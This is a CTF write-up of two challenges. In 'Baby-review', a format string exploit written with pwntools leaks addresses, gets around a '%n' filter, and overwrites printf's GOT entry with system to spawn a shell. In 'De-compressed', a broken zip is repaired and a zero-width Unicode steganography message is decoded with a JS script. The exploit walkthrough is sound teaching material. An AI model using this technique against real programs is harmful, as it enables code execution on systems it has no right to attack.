## Baby-review

- **Challenge Author:** Laozi

- **Challenge Description:** I've created a fun program for you to review your favorite movies and books. Can you figure out the problem with it?

### Reconnaissance

To start off we are given a binary with its libc file, so I ran `file` and `checksec` on the binary to learn more about it:





Opening the binary with Ghidra we can start looking through key functions for vulnerabilities and because the binary is not stripped it makes this part quite a bit nicer:



The main function just seems to ask the user to provide the capital of a random country the program pulls from `countries.txt`. Nothing looks vulnerable here though with properly sized buffers and we can't control `countries.txt`, so this just seems like an additional step we have to do at the start of any of our solutions. Then, `main` calls `menu` which seems to be the more important function we should be concerned about:



So this just looks like a typical `menu` function with some options. The only interesting thing here is that the program only displays four options to the user, but we see there is a 5th option to add a movie, but we will get back to that later. Our 5 main functions from the menu are: `read_book()`, `watch_movie()`, `review()`, an `exit` option, and `add_movie()`. Let's look through these all individually:



Our first option is quite underwhelming as it simply prints two strings that we can't control and returns.



Ah now this functions looks much more vulnerable. Initially it prints some strings like the previous method, but then runs a seemingly unrestricted `printf` on a `char` array that is defined in menu with a size of 303. If any of the other functions give us control of what goes into this variable, this would become a simple `printf` vulnerability challenge. But let's keep going.



This is another not very helpful function. It does read some input from the user, but this is protected from overflow and it is only stored in local variables, so we don't have much control over anything here.



Our fourth option is quite interesting as it doesn't call another function and does everything inside of menu. This option promptly ends the program by returning in `menu`, but it does take some user input before it does so. The user is able to input `0x30` bytes into a buffer of size 32 bytes. This means we have 16 bytes of overflow:



After testing this with gdb I found that if I use up all 48 bytes of my input, the last 8 will end up in the RIP, so we can jump wherever we'd like. However, this isn't enough to create a ropchain and as we saw with earlier protections NX is enabled, so we can't jump into shellcode. I'll keep this in mind however and continue with our last function:



Ah, here it is. We finally have a way to control what is being `printf`'ed in `watch_movie()`. We are able to input a whopping 300 characters which should be plenty for any of our payloads. However, there is one catch. Our payload is unable to have `%n` in it.

During the CTF I was stumped here as I thought without `%n`, my only options left were leaking addresses and the small exit overflow which wouldn't be enough to exploit anything critical. However, coming back after the CTF ended I learned about two methods to solve this:

1. Some people had the same thinking as I did that printf could only be used for leaking, but they were able to find creative ways to exploit the exit option such as this [great writeup](https://rektedekte.github.io/CTF-writeups/DamCTF%202023/baby-review/) here which uses stack pivoting.
2. However, another method I realized is that the check for `%n` is quite ineffective. There are two major ways I know to work around this.

   - The first is actually quite simple, `%n` works just like other format strings in the sense that it can be modified to target specific addresses. For example, if you want to access the 29th pointer in memory, you don't need a payload of 29 `%p`'s, instead you can just use `%29$p`. `%n` works in a similar way that you can break it up to be `%29$n`, this isn't a realistic example, but hopefully you get the idea. As long as our payload doesn't exactly have `%n`, but it is broken up using this method we easily pass the check.

   - The second workaround is something called "length modifiers". The `%n` option can be modified to be `%hn` and `%hhn` in order to only write a specified amount of bytes at the target address. This is better explained in [this article](https://medium.com/swlh/binary-exploitation-format-string-vulnerabilities-70edd501c5be), but essentially we can opt for using more `%hn`'s which will bypass the check and only lengthen our payload, but we have a space of 300 characters to work with, so length isn't an issue at all.

Knowing this I opted to try and solve this challenge using the common method of overwriting the Global Offset Table (GOT) to pop a shell. Using this method, we only need to utilize the two functions: `watch_movie()` and `add_movie()` to write to the buffer and then `printf` it for both leaks and overwriting addresses.

### Solution

To start we need two leaks, one to get the base address of the binary and one for the base address of the libc. We need these two because getting the base of the binary helps us find the address of all GOT functions allowing us to overwrite any we want. Then the base of libc allows us to find the address of system which will allow us to replace a function in the GOT with system(), call it with the parameter '/bin/sh', and pop a shell.

To find good addresses for leaking is just a lot of trial and error. I also temporarily disabled ASLR when doing this to make the process a little easier. I used a `leak.py` script that printed the first 50 pointers in memory. I got a list of 50 and cleaned it up to remove any that were nil or just not accessible addresses. My cleaned up list was:

```text
Offset 3: 0x7ffff7e9da37
Offset 4: 0x7ffff7fa4a70
Offset 5: 0x7ffff7fa4a70
Offset 7: 0x7fffffffdb90
Offset 8: 0x7fffffffdce0
Offset 9: 0x555555555580
Offset 27: 0x7ffff7e13f6d
Offset 29: 0x7ffff7fa3780
Offset 31: 0x55555555a690
Offset 33: 0x7ffff7e15a61
Offset 36: 0x7ffff7fa3780
Offset 37: 0x555555556375
Offset 38: 0x7ffff7fa3868
Offset 39: 0x7ffff7f9f600
Offset 40: 0x7ffff7ffd040
Offset 41: 0x7ffff7e15f43
Offset 43: 0x7ffff7fa3780
Offset 44: 0x555555556375
Offset 45: 0x7ffff7e0a02a
Offset 49: 0x7fffffffdd40
```

The addresses starting with `0x7f` were usually in the libc while addresses starting with `0x55` were in the binary. For each of these addresses I would simply run `x/s address` to see what was at that address. Going through the libc ones first, I eventually found offset 29 was quite convenient as it pointed exactly to the address of the function `_IO_2_1_stdout_` in the libc:



This is convenient as in our pwntools script we will just be able to subtract the location of `_IO_2_1_stdout_` in our provided libc file from our leak and we will get our libc base address.

Next for the base address of the binary I ended up using the very first possible address at offset 9 as it pointed to the address of `menu+198`, so this is again simple to find the base address of the binary again with pwntools. All we have to do is subtract the location of menu in our binary and subtract 198 to get the base of our binary:



Now I started to build my solve script and double-checked to make sure the base addresses my script was generating would match up with the true base addresses by attaching gdb and running `info proc map`. I also re-enabled ASLR to ensure this worked dynamically.

```python
from pwn import *

elf = ELF('./baby-review',checksec=False)
libc = ELF('libc.so.6',checksec=False)
p = process(elf.path)
gdb.attach(p)

p.recvline()
print(p.recvline().decode())
capital = "Paris"
p.sendline(capital.encode('utf-8'))

p.clean()
p.sendline(b'5')
p.recvline()
payload = b'%9$p %29$p'
p.sendline(payload)
p.clean()
p.sendline(b'2')
p.recvline()
p.recvline()
p.recvline()
p.recvline()
p.recvline()

leaks = p.recvline().decode().strip().split(' ')
binLeak = leaks[0]
binBase = int(binLeak,16) - elf.symbols['menu'] - 198
libcLeak = leaks[1]
libcBase = int(libcLeak,16) - libc.symbols['_IO_2_1_stdout_']

print("Binary Base: " + hex(binBase))
print("Libc Base: " + hex(libcBase))

p.interactive()
```



Leaking addresses is working perfectly! Now we can move onto the next step, overwriting the GOT.

Before overwriting anything we need to figure out which function in the GOT to overwrite. I know I want `system()` from the libc to be called, but what function would work best to replace with system. Because we are trying to pass the parameter `'/bin/sh'` we usually want to choose a function in the GOT that is run with only a single parameter and we have control over that parameter. In this case there is no simple gets or puts, but if you think about it, there is a function that takes in our input as a single parameter and we have already been using it. `printf`!

That's right, `printf` is in the GOT, so if we overwrite it with system, we can simply call `add_movie` again, input `'/bin/sh'` as our text. Then once we call watch_movie, it won't `printf` our input, but instead call system and pass `'/bin/sh'` as a paremeter which will pop a shell.

The last part to figure out is how to use %n and its variations to overwrite the GOT entry for `printf` with `system`. Well pwntools has a neat function called `fmtstr_payload`. I was not aware of the function during the CTF, but now that I know about it, this is definitely a must have for any `printf` vulnerability challenge. In order to understand it and its parameters better I will show the pwntools documentation entry about it. If you'd like to read more about it or see some examples you can find them [here](https://docs.pwntools.com/en/stable/fmtstr.html).



So this function takes two necessary parameters: `offset` and `writes`. We don't need to worry about `numbwritten` in our case as it is good with the default of 0 and `write_size` refers to the length modifiers I mentioned earlier, preferably we should keep this at byte or short to use `%hhn` and `%hn` respectively to bypass the `%n` check, but we can keep this parameter at the default write size of byte as it is fine if our payload is a little longer.

To figure out what our offset parameter should be, we need to input some characters and read memory in the same payload and find at what offset we first start to see our characters.



This is quite easy to do and requires no scripting you can just run the binary on its own. We see our `A`'s or `0x41` in hex starts to appear at the 10th offset first. So our offset parameter will be `10` in our script.

The next parameter writes is simply a dictionary with the format `{address: value}` of what we want to overwrite. So, we want to overwrite the GOT entry for printf which can be easily found with pwntools like so: `elf.got['printf']` and we want to overwrite it with the address of system in our libc file which can be found like like this: `libc.symbols['system']`.

We now have everything we need and just have to put it all together in a script. I added the following to the end of my previous leaks script:

```python
elf.address = binBase
libc.address = libcBase

p.clean()
p.sendline(b'5')
p.clean()
writes = {
    elf.got['printf']: libc.symbols['system']
}
payload = fmtstr_payload(10, writes)
p.sendline(payload)

p.clean()
p.sendline(b'2')
p.clean()
p.sendline(b'5')
p.recvline()
p.sendline(b'/bin/sh')
p.clean()
p.sendline(b'2')
p.clean()
p.interactive()
```

Now when I run the script I should get a shell! But instead, I got an error :(



This error was quite annoying to debug, but I knew something was wrong with my call to `fmtstr_payload` so I looked back at the documentation and read the following: "It can generate payload for 32 or 64 bits architectures. The size of the addr is taken from `context.bits`". Looking through more pwntools documentation I found the default of `context.bits` is set to 32, but our binary is 64 bit which was causing the error.



This is easily fixed, at the top of my script instead of running:

```python
elf = ELF('./baby-review',checksec=False)
```

we can run:

```python
elf = context.binary = ELF('./baby-review',checksec=False)
```

Now `context.binary` will be set to our binary which will automatically update many values of context for us, including `context.bits`. Now that I figured out the error I ran it again and we get our shell and the flag!



---

## De-compressed

- **Challenge Author:** Perchik

- **Challenge Description:** As an elite cyber security expert, you've been tasked with uncovering the secrets hidden within a message intercepted from a notorious spy. We suspect there may be more to this message than meets the eye. Can you use your skills in steganography to uncover whatever else might be hiding? The fate of national security is in your hands.

### Solution

To start off I unzipped the provided file and received `README.txt` which reads:

> Dear Sylvia,
>
> I wanted to let you know that I have decided to resign from the team, effective immediately. I have been offered a better opportunity elsewhere and I believe it is in my best interest to pursue it.
>
> Please do not be concerned about the success of the mission. I have confidence in the remaining members of the team, and I am sure they will be able to complete it without any problems.
>
> I apologize for any inconvenience my departure may cause, and I hope you will understand my decision.
>
> Sincerely,
>
> Twilight

This isn't really helpful to us and opening this file in a hex editor doesn't show anything out of the ordinary. I go back to the `.zip` file and open it with a hex editor to see that there are in fact two files inside, `README.txt` and `secret.txt`. Running `binwalk` also gave me a similar result:



However normal extraction methods were not retrieving secret.txt. I figured there were probably some `.zip` repair tools that could help me fix the `.zip` rather than editing it manually. Eventually, I stumbled upon the built-in feature to the `zip` command using the flag `-FF`. So I ran:

```text
zip -FF message.zip --out fixed.zip
```

Unzipping this new `.zip` file did give `secret.txt`. When I printed its contents I could see some readable words, but in between them were strange gaps. At first I thought this could be whitespace stegonography, but once I opened it in a text editor I could see that there were unicode characters scattered all throughout the file.



However, some of the characters were still displayed as unknown so I just decided to open the file in a hex editor and I realized the following series of bytes repeated frequently throughout the file and weren't part of the readable text.

- `e2808c`
- `e2808d`
- `e280ac`
- `efbbbf`

After doing a bit of research, I found that these were all different unicode characters. I then used [this list](https://www.utf8-chartable.de/unicode-utf8-table.pl) to identify what each unicode character was, and so I updated my list.

- `e2808c` = Zero Width Non Joiner [U+200C]
- `e2808d` = Zero Width Joiner [U+200D]
- `e280ac` = Pop Directional Formatting [U+202C]
- `efbbbf` = Byte Order Mark [U+FEFF]

These unicode characters are commonly used to encode messages using Zero-Width Stegonography. Eventually I stumbled upon a [similar writeup](https://ctftime.org/writeup/11321) which linked to an [amazing tool](https://330k.github.io/misc_tools/unicode_steganography.html). The list of possible zero width characters had all of the four I found in secret.txt, but the website was a bit finnicky and I opted to just use the JS library they link at the top.

Eventually, I created a simple JS script to decode the flag, copying the text directly from `secret.txt` and only removing the newlines:

```js
const stego = require('./unicode_steganography.js').unicodeSteganographer
stego.setUseChars('\u200c\u200d\u202c\ufeff')
var text =
  "‌‌‌‌‍‌‍‌I ‌‌‌‌‍‬‬‍read‌‌‌‌‍‌ ‌‌‌‌‍‌‬between ‌‌‌‌‍‬‍‍‌‌‌‌‍‬‍the‌‌‌‌‍‬‌‍‌‌‌‌‍‌‬ lines, my ‌‌‌‌‍‬‍‌vision'‌‌‌‌‌‬‌‌s ‌‌‌‌‍‍‌‌‌‌‌‍‬‬‌‌‌‌‌‍‬‍‍clear‌‌‌‌‌‬‌‌ and‌‌‌‌‍‍‌‬ keen‌‌‌‌‍‌‍‍ I‌‌‌‌‍‌‌‍ ‌‌‌‌‍‌‍‌see ‌‌‌‌‍‌‍the hidden‌‌‌‌‍‌‍‍ ‌‌‌‌‌‬‌meanings, ‌‌‌‌‌‬‌‌the truths ‌‌‌‌‍‌‬‍that‌‌‌‌‌‬‌‌‌‌‌‌‍‬‌‍ ‌‌‌‌‍‬‍are unseen ‌‌‌‌‌‬‌‌I don'‌‌‌‌‍‌t ‌‌‌‌‍‍‌‌‌‌‌‍‬‬‍‌‌‌‌‍‬‌just‌‌‌‌‍‬‌‌‌‌‌‌‬‌‌‌‌‌‌‍‬‌‌‌‌‍‬‬‌‌‌‌‌‬‌‌ take ‌‌‌‌‍‍‌things ‌‌‌‌‍‬‬‌at ‌‌‌‌‍‬‍‍face value,‌‌‌‌‌‬‌‌‌‌‌‌‍‍‌ ‌‌‌‌‍‬‍‍that‌‌‌‌‍‬‌‍‌‌‌‌‍‬‍‌‌‌‌‌‬‬'s not‌‌‌‌‌‌‬‬ my‌‌‌‌‍‬‍‌‌‌‌‌‍‬‌‍ ‌‌‌‌‍‬‍style I ‌‌‌‌‍‬‌‌‌‌‍‍‌dig‌‌‌‌‌‌‍‌‌‌‌‍‬‍ ‌‌‌‌‌‌deep and I uncover‌‌‌‌‍‍‌‌‌‌‍‍‌, the ‌‌‌‌‌‌‌hidden‌‌‌‌‍‍ ‌‌‌‌‍‬‬‌‌‌‌‍‬‬‍treasures‌‌‌‌‍‬‌ ‌‌‌‌‍‬‬that‌‌‌‌‍‍‌‌‌‌‍‬‌‬‌‌‌‌‌‍‌‌‌‌‌‍‬‌ ‌‌‌‌‍‬‬‌‌‌‌‍‍are‌‌‌‌‌‍‌ compiled‌‌‌‌‍‬‬ ‌‌‌‌‍‬‍‌‌‌‌‌‍‍‌‌‌‌‍‌‬‌‌‌‌‌‌‌‌‌‌‍‬‌‌‌‌‌‌‍‌‌‌‌‌‍‬‌‌‌‌‌‍‍"
console.log(stego.decodeText(text))
```

Running this script gave me the flag!

